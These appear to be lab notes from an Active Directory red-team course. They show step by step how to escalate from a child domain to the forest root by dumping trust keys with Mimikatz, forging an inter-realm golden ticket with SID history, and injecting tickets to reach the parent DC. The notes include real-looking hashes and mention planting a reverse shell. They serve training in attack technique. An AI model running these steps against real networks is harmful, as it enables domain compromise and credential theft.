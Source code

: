 # Across Domains Implicit Two-Way Trust Relationship

### Across Forests
A trust relationship needs to be established.

### Child to Forest Root
Domains in the same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains. There are two ways of escalating privileges between two domains of the same forest:
- Krbtgt hash
- Trust tickets

### Kerberos Authentication Process
1. Steps 1 to 3 are common.
2. Step 4: The domain controller (DC) checks the global catalog and finds out this service is not in its domain but in the parent domain. So the DC responds with an inter-realm TGT. Our machine receives the inter-realm TGT (signed and encrypted with the trust key) also called a referrer ticket.
3. Step 5: This inter-realm TGS is presented to the DC of the parent domain. The only validation the parent DC does in this case is if it can decrypt the inter-realm TGT using the trust key.
4. Step 6: The DC decrypts the inter-realm TGS.
5. Step 7: The DC responds with a TGS which the client presents to the application server, which then decides on privileges.

## Privilege Escalation - Child to Parent using Trust Tickets
### Step-by-Step Instructions
1. Once the domain admin is compromised, switch to the domain admin:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

2. Look for the cross forest or forest root trust key for privilege escalation. Retrieve the trust key for the trust between dollarcorp and moneycorp using mimikatz:
```powershell
PS C:\Windows\system32> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```

3. Find the trust key:
```powershell
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-280534878-1496970234-700767426)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
    * aes256_hmac       6520498fb98b6bf3c59b13d188b77227ae3200aa05cdad783a97500165128583
    * aes128_hmac       e65aef4c7c0d83964f6dc62560ab1aa6
    * rc4_hmac_nt       3cbaa731b987e575822f00ddd6701a7b
```

4. Create the inter-realm TGT:
```powershell
PS C:\AD\Tools\kekeo_old> Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:3cbaa731b987e575822f00ddd6701a7b /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```

5. Request to create a TGS ticket for a service (CIFS) in the parent domain (moneycorp.local):
```powershell
PS C:\AD\Tools\kekeo_old> .\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

6. Present the TGS to the target service:
```powershell
PS C:\AD\Tools\kekeo_old> .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
```

7. Use the TGS to access the targeted service (you may need to use it twice). For example:
```powershell
PS C:\AD\Tools\kekeo_old> .\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
Destination : Microsoft LSA API (multiple)
 < .\CIFS.mcorp-dc.moneycorp.local.kirbi (RFC KRB-CRED (#22))
 > Ticket Administrator@dollarcorp.moneycorp.local-CIFS~mcorp-dc.moneycorp.local@MONEYCORP.LOCAL : injected
```

8. Try to access the target service to confirm privilege escalation:
```powershell
PS C:\AD\Tools\kekeo_old> klist
PS C:\ad\tools\kekeo_old> ls \\mcorp-dc.moneycorp.local\c$
```

9. Gather the krbtgt hash, and request an inter-realm tgt once again:
```powershell
PS C:\AD\Tools> Invoke-Mimikatz -Command '""Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:3cbaa731b987e575822f00ddd6701a7b /ticket:C:\AD\Tools\krbtgt_tkt.kirbi""'
```

10. Inject the ticket using mimikatz:
```powershell
PS C:\AD\Tools> Invoke-Mimikatz -Command '""Kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi""'
mimikatz(powershell) # kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi
```

11. Verify the TGT:
```powershell
PS C:\AD\Tools> klist
```

12. Extract credentials of the Enterprise Administrator for use in DC-Shadow and schedule a task on the forest root DC to execute a reverse shell:
```powershell
PS C:\AD\Tools> gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local
```
